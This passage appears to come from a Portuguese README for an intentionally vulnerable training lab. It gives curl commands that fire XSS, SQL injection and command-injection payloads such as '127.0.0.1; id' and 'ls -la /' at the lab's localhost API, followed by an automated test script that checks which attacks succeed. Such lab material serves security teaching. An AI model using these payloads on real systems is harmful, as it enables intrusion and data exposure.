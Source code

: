 ```bash
# Observe: dados sensíveis expostos, estrutura do banco revelada
```

#### **XSS Completo:**
```bash
# 1. XSS Refletido
curl "http://localhost:5001/api/xss/reflected?search=<script>alert('XSS')</script>"

# 2. XSS Armazenado (POST)
curl -X POST "http://localhost:5001/api/xss/comments/add" \
  -H "Content-Type: application/json" \
  -d '{"name":"Hacker","comment":"<script>alert(\"Stored XSS\")</script>"}'

# 3. Visualizar XSS armazenado
curl "http://localhost:5001/api/xss/comments"
```

#### **Command Injection Avançado:**
```bash
# 1. Injeção básica
curl -X POST "http://localhost:5001/api/cmd/ping" \
  -H "Content-Type: application/json" \
  -d '{"host":"127.0.0.1; id"}'

# 2. Enumeração do sistema
curl -X POST "http://localhost:5001/api/cmd/ping" \
  -H "Content-Type: application/json" \
  -d '{"host":"127.0.0.1; uname -a"}'

# 3. Listagem de arquivos
curl -X POST "http://localhost:5001/api/cmd/ping" \
  -H "Content-Type: application/json" \
  -d '{"host":"127.0.0.1; ls -la /"}'
```

### **Scripts de Automação:**

#### **Teste Automatizado:**
```bash
#!/bin/bash
# test-cyberlab.sh

echo "🧪 CyberLab Automated Testing"

# Verificar se serviços estão rodando
if ! curl -s http://localhost:5001/api/status > /dev/null; then
    echo "❌ Backend não está rodando"
    exit 1
fi

# Teste SQL Injection
echo "🔍 Testing SQL Injection..."
SQL_RESULT=$(curl -s "http://localhost:5001/api/vulnerable/users/search?username=admin'%20OR%20'1'='1'%20--")
if echo "$SQL_RESULT" | grep -q "admin"; then
    echo "✅ SQL Injection: VULNERÁVEL"
else
    echo "❌ SQL Injection: Falhou"
fi

# Teste XSS
echo "🕷️ Testing XSS..."
XSS_RESULT=$(curl -s "http://localhost:5001/api/xss/reflected?search=<script>alert('test')</script>")
```